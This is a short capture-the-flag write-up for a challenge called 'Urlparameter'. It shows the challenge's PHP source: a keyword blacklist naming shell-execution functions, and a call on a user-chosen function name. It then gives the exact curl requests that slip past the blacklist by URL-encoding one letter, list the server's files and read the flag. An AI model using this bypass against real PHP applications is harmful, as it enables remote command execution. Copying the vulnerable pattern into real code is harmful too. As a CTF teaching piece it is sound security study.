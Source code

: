# Urlparameter
Author: avarx

```$ curl http://35.196.45.11:8080/robots.txt```

returns:
```text
# you know de wae ma queen
User-Agent: *
Disallow: /?debug
```

```$ curl http://35.196.45.11:8080/?debug```

returns:
```PHP
$blacklist = "assert|system|passthru|exec|assert|read|open|eval|`|_|file|dir|\.\.|\/\/|curl|ftp|glob";
if(count($_GET) > 0){
	if(preg_match("/$blacklist/i",$_SERVER["REQUEST_URI"])) die("No no no hackers!!");
	list($key, $val) = each($_GET);
	$key($val);
}
```

The interesting part is **$_SERVER["REQUEST_URI"]** is urlencoded **$_GET** is not.

```$ curl "http://35.196.45.11:8080/?%73ystem=ls"```

would so result in:


| Variable				 | Content|
| -----------------------|:-------------:|
| $_SERVER["REQUEST_URI"]|/?%73ystem=ls|
| $_GET:				 |[system] => ls|

This allows us to bypass the filter ($blacklist).


```curl "http://35.196.45.11:8080/?%73ystem=ls"```

returns:
```text
flag-a-long-name-that-you-wont-know.php
index.php
robots.txt
```

```curl "http://35.196.45.11:8080/?%73ystem=cat%20flag-a-long-name-that-you-wont-know.php"```

returns:
```PHP
<?php
    //here the flag: AceBear{I_did_something_stupid_with_url}
?>
```